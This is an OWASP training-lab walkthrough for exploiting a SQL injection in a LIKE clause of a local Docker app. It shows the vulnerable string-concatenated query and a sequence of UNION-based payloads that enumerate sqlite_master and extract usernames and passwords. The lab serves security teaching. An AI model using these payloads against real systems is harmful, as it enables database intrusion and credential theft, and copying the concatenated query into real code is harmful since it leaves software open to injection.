

# SQLI \(Like\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-sqli-like
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-sqli-like
```


Now that the app is running let's go hacking!


## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.


```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote


```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```javascript
db.get( "SELECT UserName, email FROM users WHERE UserName LIKE '%" + username + "%' ORDER BY UserId"
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.



```text
http://localhost:5000/home/Admin%25'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.


```text
http://localhost:5000/home/Admin%25'AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.


```text
http://localhost:5000/home/Admin%25'union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email


```text
http://localhost:5000/home/Admin%25'union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.


```text
http://localhost:5000/home/Admin%25'UNION SELECT 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.


```text
http://localhost:5000/home/Admin%25'union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.


```text
http://localhost:5000/home/Admin%25'union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!



SQLite Reference


